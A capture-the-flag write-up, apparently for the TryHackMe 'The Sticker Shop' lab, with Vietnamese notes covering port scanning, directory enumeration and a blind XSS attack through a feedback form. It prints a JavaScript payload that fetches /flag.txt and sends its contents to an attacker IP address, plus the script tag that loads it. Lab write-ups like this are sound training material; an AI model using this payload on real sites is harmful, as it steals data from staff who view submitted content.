 ```yaml
---
title: THM - The Sticker Shop
date: 27-02-2025
category: ctf
---
```

# Enumeration
## Scan
```bash
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)

8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10

Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## SSH (22)
```bash
└─$ ssh root@thestickershop.thm
The authenticity of host 'thestickershop.thm (10.10.18.24)' can't be established.
ED25519 key fingerprint is SHA256:Sz1Pmdc1D8HxAGF2zxbrchswjJ7Cyiu2KYRpqiel54E.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'thestickershop.thm' (ED25519) to the list of known hosts.
root@thestickershop.thm's password: 
Permission denied, please try again.
root@thestickershop.thm's password: 
Permission denied, please try again.
root@thestickershop.thm's password: 
root@thestickershop.thm: Permission denied (publickey,password).
```
- Target su dung password-based ssh
## Web (8080)
![[Pasted image 20250227225530.png]]
- /submit_feedback cho phep gui feedback, co the la len database
### Dirsearch
```bash
└─$ dirsearch -u http://thestickershop.thm:8080/

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Target: http://thestickershop.thm:8080/

[22:57:35] Starting: 
[23:00:33] 401 -   25B  - /flag.txt

Task Completed

```
- Co /flag.txt nhung ma 401:
![[Pasted image 20250227230435.png]]
### Vhost/Subdomain
```bash

```
### Feedback page
![[Pasted image 20250227233508.png]]
- Day la cai duy nhat ta co the thu
- Trick o day la neu gap cau kieu nhu *"se danh gia", "se xu ly"* cua admin hoac staff thi co nghia la se co ai do click cai ban gui.
- Nhiem vu: Tao payload de victim click, kha nang o day la **XSS**
```javascript
// fetch-get.js

fetch("/flag.txt")

.then(response => response.text())

.then(data => {
	const encodedData = encodeURIComponent(data);
	const url = "http://10.8.16.212?data=" + encodedData;
	return fetch(url);
});
```
- De gui doan script js nay ta co them no vao `script` tag:
```html
<script src="http://{ip}/fetch-get.js"></script>
```